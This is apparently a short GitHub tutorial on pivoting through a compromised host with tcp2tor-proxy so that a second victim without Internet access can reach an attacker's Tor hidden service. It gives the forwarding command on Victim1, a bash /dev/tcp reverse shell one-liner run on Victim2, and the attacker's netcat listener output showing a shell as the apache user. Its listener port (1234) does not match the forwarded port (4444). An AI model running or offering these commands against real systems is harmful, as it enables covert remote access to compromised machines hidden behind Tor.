

# Remote port forwarding with tcp2tor-proxy

We suppose that Victim2 does not have Internet access, so we cannot access Tor directly from it. However, we can use **tcp2tor-proxy** in order to use Victim1 as a Tor proxy for Victim2.

As shown in the following illustration, the attacker will publish a Hidden Service with a handler. With tcp2tor-proxy, Victim1 will serve a TCP port that routes the traffic directly to the Hidden Service. Then, Victim2 will send a simple reverse shell to Victim1 in order to reach the attacker handler.



## 1. Set up the remote port forwarding


Previously, the attacker needs to have a **Hidden Service up and running** with an associated onion address. Also, the attacker should **run a netcat handler** for the incoming connections.


As Victim1 is the host we will used as a pivot, we will run **tcp2tor-proxy** on it:

```text
[victim1]$ ./tcp2tor-proxy -listen 0.0.0.0:60101 \
    -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

Now, the pivot is listening TCP traffic on port `60101` so that it will be routed to the Hidden Service the attacker owns.

## 2. Reverse shell to tcp2tor-proxy

As the traffic that reach tcp2tor-proxy will be routed to the Hidden Service, Victim2 only needs to send a **simple reverse shell to the pivot**:

```text
[victim2]$ bash -i >& /dev/tcp/victim1/60101 0>&1
```

After executing the above command, the attacker will receive the shell:

```text
[attacker]$ nc -lnvp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

